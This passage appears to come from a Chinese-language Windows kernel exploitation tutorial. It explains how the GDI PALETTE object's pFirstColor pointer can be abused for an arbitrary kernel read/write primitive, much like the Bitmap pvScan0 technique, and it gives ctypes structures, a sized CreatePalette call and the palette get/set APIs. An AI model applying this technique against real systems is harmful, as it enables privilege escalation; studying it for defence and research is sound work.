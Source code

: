 
PALETTE偏移0x90处是PALETTEENTRY，一个4个bytes的数组，偏移0x80处的pFirstColor是一个指向该数组的指针，就是利用该指针来构造RW primitive，相当于Bitmap里的pvScan0指针

```
class PALETTEENTRY(Structure):
 _fields_ = [
  ("peRed", BYTE),
  ("peGreen", BYTE),
  ("peBlue", BYTE),
  ("peFlags", BYTE)
 ]
```

调用以下API创建一个PALETTE

```
HPALETTE CreatePalette(
  _In_ const LOGPALETTE *lplgpl
);
```

LOGPALETTE是这样的一个结构

```
class LOGPALETTE(Structure):
 _fields_ = [
  ("palVersion", WORD),
  ("palNumEntries", WORD),
  ("palPalEntry", POINTER(PALETTEENTRY))
 ]
```

这样创建一个PALETTE，注意一下palNumEntries的计算

```
logPalette = LOGPALETTE()
logPalette.palNumEntries = 0x3DC; # size: 0x1000; (SIZE - 0x90) / 4; 0x90 = size of _PALETTE64 struct
logPalette.palVersion = 0x300
gdi32.CreatePalette.restype = HPALETTE
gdi32.CreatePalette.argtypes = [POINTER(LOGPALETTE)]
hManager = gdi32.CreatePalette(byref(logPalette))
```

还记得吗？GetBitmapBits、SetBitmapBits用来操纵Pixel区的数据，被我们恶意利用后可以读写内核数据。关于PALETTE的操作也有类似的API：

```
UINT GetPaletteEntries(
  _In_  HPALETTE       hpal,
  _In_  UINT           iStartIndex,
  _In_  UINT           nEntries,
  _Out_ LPPALETTEENTRY lppe
);

UINT SetPaletteEntries(
  _In_       HPALETTE     hpal,
  _In_       UINT         iStart,
  _In_       UINT         cEntries,
  _In_ const PALETTEENTRY *lppe
);
```
